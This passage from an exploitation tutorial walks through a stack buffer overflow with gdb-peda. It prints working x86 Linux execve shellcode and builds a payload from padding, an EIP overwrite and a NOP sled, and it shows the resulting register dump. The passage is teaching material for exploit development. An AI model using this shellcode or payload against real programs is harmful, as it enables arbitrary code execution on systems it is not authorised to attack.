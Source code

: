 Next step is to get us some shellcode and store it in a variable
```
  gdb-peda$ shellcode generate 
  Available shellcodes:
      x86/bsd bindport
      x86/bsd connect
      x86/bsd exec
      x86/linux bindport
      x86/linux connect
      x86/linux exec

  gdb-peda$ shellcode generate x86/linux exec
  # x86/linux/exec: 24 bytes
  shellcode = (
      "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
      "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
  )
  gdb-peda$ python 
  >shellcode = (
  >    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31"
  >    "\xc9\x89\xca\x6a\x0b\x58\xcd\x80"
  >)
  >end
  gdb-peda$ 
```
So it turns out peda also has a library of shellcode as well as an interface to
shelstorm.org. What we have done here is to get peda to display the shellcode
for an execve shell (see my shellcode article). We then use peda's python
command to assign this to a python variable.

Lets craft our payload
```
  gdb-peda$ pset arg '"A" * 76 + "BBBB" + "\x90"*500 + shellcode'
  gdb-peda$ r
   [----------------------------------registers-----------------------------------]
  EAX: 0x0 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0xffffffff 
  EDX: 0xb7fd38b8 --> 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0x41414141 ('AAAA')
  ESP: 0xbffff450 --> 0x90909090 
  EIP: 0x42424242 ('BBBB')
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0x42424242
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff450 --> 0x90909090 
  0004| 0xbffff454 --> 0x90909090 
  0008| 0xbffff458 --> 0x90909090 
  0012| 0xbffff45c --> 0x90909090 
  0016| 0xbffff460 --> 0x90909090 
  0020| 0xbffff464 --> 0x90909090 
  0024| 0xbffff468 --> 0x90909090 
  0028| 0xbffff46c --> 0x90909090 
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x42424242 in ?? ()
  gdb-peda$ 
```
As you can see the program crashed again bit this time EIP points to out B's
(0x42424242). Let me explain the payload string. PEDA allow you to use python
expressions to set the argument that will be passed to the program when gdn runs
